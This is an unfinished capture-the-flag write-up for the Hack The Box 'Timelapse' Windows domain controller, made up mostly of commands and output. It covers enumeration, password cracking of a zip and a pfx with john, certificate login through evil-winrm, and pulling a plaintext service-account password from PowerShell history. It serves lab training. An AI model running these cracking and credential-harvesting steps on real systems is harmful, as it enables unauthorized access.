


# Hackthebox - Timelapse - Easy



- [Box on Hackthebox](https://app.hackthebox.com/machines/452)

## Nmap

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.11.152                                                                                                                                                                                      130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-23 13:31 EDT
Nmap scan report for 10.10.11.152
Host is up (0.023s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-10-24 01:33:42Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_ssl-date: 2022-10-24T01:35:18+00:00; +7h59m59s from scanner time.
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  msrpc             Microsoft Windows RPC
49674/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49696/tcp open  msrpc             Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
| smb2-time: 
|   date: 2022-10-24T01:34:40
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.02 seconds
```

## Enum checklist

- [x] 53/tcp    open  domain            Simple DNS Plus
- [ ] 88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-10-24 01:33:42Z)
- [ ] 135/tcp   open  msrpc             Microsoft Windows RPC
- [ ] 139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
- [ ] 389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
- [ ] 445/tcp   open  microsoft-ds?
- [ ] 464/tcp   open  kpasswd5?
- [ ] 593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
- [ ] 636/tcp   open  ldapssl?
- [ ] 3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
- [ ] 3269/tcp  open  globalcatLDAPssl?
- [ ] 5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- [ ] 9389/tcp  open  mc-nmf            .NET Message Framing
- [ ] 49667/tcp open  msrpc             Microsoft Windows RPC
- [ ] 49673/tcp open  msrpc             Microsoft Windows RPC
- [ ] 49674/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
- [ ] 49696/tcp open  msrpc             Microsoft Windows RPC

## DNS

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ dig axfr @10.10.11.152 timelapse.htb                                                                                                                                                                                                 1 ⚙

; <<>> DiG 9.17.19-1-Debian <<>> axfr @10.10.11.152 timelapse.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

- Nothing here

## Kerberos

- User enumeration with kerbrute

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ ./kerbrute_linux_amd64 userenum -d timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt                                                                                         1 ⚙

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/23/22 - Ronnie Flathers @ropnop

2022/10/23 13:54:03 >  Using KDC(s):
2022/10/23 13:54:03 >   10.10.11.152:88

2022/10/23 13:54:14 >  [+] VALID USERNAME:       guest@timelapse.htb
2022/10/23 13:54:31 >  [+] VALID USERNAME:       administrator@timelapse.htb
2022/10/23 13:57:40 >  [+] VALID USERNAME:       Guest@timelapse.htb
2022/10/23 13:57:42 >  [+] VALID USERNAME:       Administrator@timelapse.htb
```

- Nothing interesting here

## SMB

- We can list shares with smbclient

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ smbclient --no-pass -L 10.10.11.152                                                                                                                                                                                                  1 ⚙

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

- Let's try crackmapexec

```bash
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.152                                                                                                   
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
```

- Let's try to connect to the share we found with smbclient, the only we are successful is Shares `smbclient -N //10.10.11.152/Shares`

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -N //10.10.11.152/Shares  
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
```

## Initial foothold

- We can take a few files out of it. Here is a list of these files

```bash
-rw-r--r-- 1 kali kali  104422 Oct 30 15:17 LAPS_Datasheet.docx
-rw-r--r-- 1 kali kali  641378 Oct 30 15:17 LAPS_OperationsGuide.docx
-rw-r--r-- 1 kali kali   72683 Oct 30 15:17 LAPS_TechnicalSpecification.docx
-rw-r--r-- 1 kali kali 1118208 Oct 30 15:16 LAPS.x64.msi
-rw-r--r-- 1 kali kali    2611 Oct 30 15:16 winrm_backup.zip
```

- The zip file is password protected. Let's try to crack it
  - `zip2john winrm_backup.zip > crackme.hash` we generate the hash from the zip with zip2john
  - Now we can try to crack it with rockyou and john.
  
```bash
john crackme.hash -wordlist=/usr/share/wordlists/rockyou.txt
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ john crackme.hash --show                                                                       
winrm_backup.zip/legacyy_dev_auth.pfx:supremelegacy:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip
```

- We get a password!
- Let's unzip the file 
- We get a pfx file `legacyy_dev_auth.pfx`
- Looks like we will have to crack another hash...
- Let's get pfx2john in our machine `wget https://raw.githubusercontent.com/sirrushoo/python/master/pfx2john.py`
- `python3 pfx2john.py legacyy_dev_auth.pfx > crackme2.hash`
- the hash I get seems odd for some reason (it has quotes and seems corrupted)
- Turns out it is not written in python so this command is better `python pfx2john.py legacyy_dev_auth.pfx > crackmeagain.hash`
- `john crackmeagain.hash -wordlist=/usr/share/wordlists/rockyou.txt` now we can try to crack it.
- We get another password

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ john crackmeagain.hash --show                                    
legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx

1 password hash cracked, 0 left
```

- Now we just need to get the key and cert. We can follow the instruction for openssl [here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)
- `openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key` we get the key we then need to choose a passphrase
- `openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt` we get the cert.
- We can use these key with evil-winrm `evil-winrm -i 10.10.11.152 -S -k legacyy.key -c legacyy.crt` and it works!  

  

- We can get the user flag

## Privesc

- Let's take winpeas in the target `upload winPEASx64.exe` with evil winrm we just can use upload filename
- winpeas is catch by the AV.
- Let's go on with manual enumeration. We can use the commands listed [here](https://csbygb.gitbook.io/pentips/windows/powershell-cmd)
- After a while we can see that we have the history of the powershell commands
- Let's get it for more analysis `download C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
- We have a password in it

```bash
┌──(kali㉿kali)-[~/Documents/timelapse]
└─$ cat ConsoleHost_history.txt 
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

- Let's connect with this user it will probably be less annoying
- So the user is svc_deploy and the pass is "E3R$Q62^12p7PLlC%KWaxuaV"

**Coming Soon**